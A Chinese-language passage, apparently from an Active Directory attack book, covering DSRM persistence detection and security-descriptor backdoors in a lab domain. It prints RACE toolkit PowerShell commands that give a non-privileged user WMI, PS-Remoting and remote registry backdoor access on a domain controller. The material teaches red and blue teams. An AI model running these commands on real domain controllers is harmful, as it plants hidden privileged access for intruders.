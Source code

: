 图 7.38 – 来自 DSRM 登录会话的 DCSync 结果

蓝队应监控`HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`注册表键的存在。事件 ID `4794` 将记录设置 DSRM 密码的尝试

我们最后的持久化技术将涵盖安全描述符及其如何设置，以便为恶意行为者提供特权访问，而无需显式地将受损用户添加到特权组中。

## 安全描述符更改

安全描述符用于存储一个对象对另一个对象的权限。它采用**安全描述符定义语言**（**SDDL**）中定义的格式进行描述。**访问控制实体**（**ACE**）字符串用于**自愿访问控制列表**（**DACL**）和**系统访问控制列表**（**SACL**）[10]：

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid;
```

这个想法是修改多个远程访问方法的安全描述符。我们将在域控制器上为非特权用户设置 WMI 和 PS-Remoting 访问后门。此外，我们还将修改远程注册表的安全描述符。RACE 工具包有用于这些任务的 PowerShell 功能：

```
Set-RemoteWMI -SamAccountName renly.baratheon -ComputerName kingslanding -Verbose
Set-RemotePSRemoting -SamAccountName renly.baratheon -Verbose
Add-RemoteRegBackdoor -Trustee renly.baratheon -ComputerName kingslanding -Verbose
```

在域控制器上执行命令的结果如下：
